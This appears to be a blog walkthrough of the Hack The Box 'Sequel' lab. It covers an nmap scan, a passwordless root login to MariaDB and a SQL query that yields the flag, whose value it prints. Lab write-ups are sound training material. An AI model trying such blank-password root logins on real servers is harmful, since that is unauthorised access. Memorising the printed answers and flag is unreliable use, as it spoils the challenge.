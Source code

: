 ```yaml
---
layout: post
title: "[HTB - Starting Point] Sequel"
date: 2022-10-16 09:00:00 +0800
categories: HTB
tags: [HTB, Starting Point]
---
```


## Task 1  
Q : What does the acronym SQL stand for?  
A : Structured Query Language  

## Task 2  
Q : During our scan, which port running mysql do we find?  
``` text
[host] # nmap -sVC --open -oA Sequel_init_scan <target_ip>
```
A : 3306  

## Task 3  
Q : What community-developed MySQL version is the target running?  
A : MariaDB  

## Task 4  
Q : What switch do we need to use in order to specify a login username for the MySQL service?  
A : -u  

## Task 5  
Q : Which username allows us to log into MariaDB without providing a password?  
A : root  

## Task 6  
Q : What symbol can we use to specify within the query that we want to display everything inside a table?  
A : *  

## Task 7  
Q : What symbol do we need to end each query with?  
A : ;  

## SUBMIT FLAG  
Q : Submit root flag  
``` text
[host] # mariadb -u root -P 3306 -h <target_ip>
MariaDB [(none)]> SHOW DATABASES;
MariaDB [(none)]> USE htb;
MariaDB [htb]> SHOW TABLES;
MariaDB [htb]> SELECT * FROM config;
```
A : 7b4bec00d1a39e3dd4e021ec3d915da8
